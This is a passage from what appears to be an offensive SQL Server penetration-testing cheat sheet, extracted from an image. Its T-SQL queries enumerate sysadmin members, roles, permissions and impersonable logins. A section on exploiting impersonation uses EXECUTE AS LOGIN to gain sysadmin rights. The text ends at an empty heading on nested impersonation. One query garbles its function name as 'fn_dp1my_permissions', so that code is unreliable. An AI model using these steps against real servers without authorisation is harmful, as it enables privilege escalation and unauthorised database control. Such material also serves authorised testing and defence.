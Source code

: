 ```sql
SELECT name,type_desc,is_disabled FROM sys.server_principals WHERE IS_SRVROLEMEMBER ('sysadmin',name) = 1
```

### List All Database Roles

```sql
SELECT DB1.name AS DatabaseRoleName,
isnull (DB2.name, 'No members') AS DatabaseUserName
FROM sys.database_role_members AS DRM
RIGHT OUTER JOIN sys.database_principals AS DB1
ON DRM.role_principal_id = DB1.principal_id
LEFT OUTER JOIN sys.database_principals AS DB2
ON DRM.member_principal_id = DB2.principal_id
WHERE DB1.type = 'R'
ORDER BY DB1.name;
```

### Effective Permissions from the Server

```sql
select * from fn_my_permissions(null, 'server');
```

### Effective Permissions from the Database

```sql
SELECT * FROM fn_dp1my_permissions(NULL, 'DATABASE');
```

### Find SQL Server Logins Which can be Impersonated for the Current Database

```sql
select distinct b.name
from sys.server_permissions a
inner join sys.server_principals b
on a.grantor_principal_id = b.principal_id
where a.permission_name = 'impersonate'
```

### Exploiting Impersonation

```sql
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
EXECUTE AS LOGIN = 'adminuser'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
SELECT ORIGINAL_LOGIN()
```

### Exploiting Nested Impersonation
